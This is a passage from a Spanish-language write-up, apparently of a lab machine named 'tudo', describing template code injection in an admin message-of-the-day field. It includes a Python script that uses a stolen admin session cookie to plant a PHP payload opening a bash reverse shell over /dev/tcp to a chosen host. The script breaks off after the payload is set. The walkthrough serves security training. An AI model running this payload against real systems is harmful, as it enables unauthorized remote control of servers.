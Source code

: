 Introduzco codigo en etiquetas `php` para hacer una traza de que verdaderamente esta funcionando.

![test123](/assets/imgs/tudo/test123.png)

Vuelvo al panel principal y efectivamente tengo la capacidad de inyectar código de forma remota

![whoami](/assets/imgs/tudo/whoami.png)

----

### Automatizando la vulnerabilidad

```
#!/usr/bin/python3

import requests, sys, subprocess, time

if len(sys.argv) != 4:
	print("usage: %s TARGET HOST ADMIN_PHPSESSID"%sys.argv[0])
	sys.exit(-1)

target    = sys.argv[1]
host      = sys.argv[2]
phpsessid = sys.argv[3]
burp = {"http" : "http://127.0.0.1:8080"}

lport = 4444

def set_motd(msg):
	cookie = {"PHPSESSID" : phpsessid}
	data = {"message" : msg}
	r = requests.post("http://%s/admin/update_motd.php" % target, data=data,cookies=cookie)
	return "Message set!" in r.text

def get_homepage():
	cookie = {"PHPSESSID" : phpsessid}
	r = requests.get("http://%s/" % target, cookies=cookie)

if set_motd("{php}exec(\"/bin/bash -c 'bash -i >& /dev/tcp/%s/%d 0>&1'\");{/php}" % (host,lport)):
	print("[+] MoTD cambiando\n")
```